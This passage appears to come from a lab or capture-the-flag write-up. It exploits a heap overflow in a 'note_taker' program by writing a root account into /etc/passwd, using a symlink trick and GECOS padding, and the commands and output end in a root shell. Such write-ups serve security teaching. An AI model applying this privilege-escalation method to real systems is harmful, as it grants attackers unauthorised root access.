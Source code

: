 The format is described here [/etc/passwd file format](https://www.ibm.com/support/knowledgecenter/en/ssw_aix_71/security/passwords_etc_passwd_file.html)

The important informations here are the user ID number (UID) and the login shell. Any entry in this file that has a user ID of 0 has root privileges so that's what we are aiming for. We can also define our own password but first we need to encrypt it. 
Perl allows to encrypt any password rather easily :
```console
$ perl -e 'print crypt("password", "AA") . "\n"' # "AA" is the salt value, don't worry about it too much
AA6tQYSfGxd/A
$
```

We can now assemble every piece to create the line we want to add to the `/etc/passwd` file :
```
hackerman:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash"
```

❗At this point the string does not end with the correct sequence has it would write to `/bin/bash` instead of `/etc/passwd`. We can however use a clever bypass by using symbolic file link. We can create any file ending with `/etc/passwd` (eg: `/var/etc/passwd`, `/tmp/etc/passwd`) and link it to `/bin/bash`.

```console
$ mkdir /tmp/etc
$ ln -s /bin/bash /tmp/etc/passwd
$ ls -l /tmp/etc/passwd
lrwxrwxrwx 1 kali kali 9 Jul 21 11:29 /tmp/etc/passwd -> /bin/bash
$
```

Our string now looks like this :
```
hackerman:AA6tQYSfGxd/A:0:0:me:/root:/tmp/etc/passwd"
```
We can now fill the *full user name (GECOS)* field for padding so we can adjust our buffer correctly.

```console
$ perl -e 'print "hackerman:AA6tQYSfGxd/A:0:0:me:/root:/tmp"' | wc -c
41
$ perl -e 'print "hackerman:AA6tQYSfGxd/A:0:0:" . "A"x50 . ":/root:/tmp"' | wc -c
89
$ gdb -q
(gdb) p/d 112 - 89 + 50
$1 = 73
(gdb) quit
$ perl -e 'print "hackerman:AA6tQYSfGxd/A:0:0:"."A"x73 .":/root:/tmp"' | wc -c
112
```
We have successfully padded the buffer so now we just need to add the file at the end of the string and it shoudl work perfectly.

```console
./note_taker $(perl -e 'print "hackerman:AA6tQYSfGxd/A:0:0:"."A"x73 .":/root:/tmp/etc/passwd"')
[DEBUG] buffer @ 0x804d1a0: 'hackerman:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
[DEBUG] datafile @ 0x804d210: '/etc/passwd'
Note has been saved. 
munmap_chunk(): invalid pointer
Aborted
$ tail /etc/passwd

hackerman:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
$ su hackerman
Password : #password
root@kali:/home/kali# whoami
```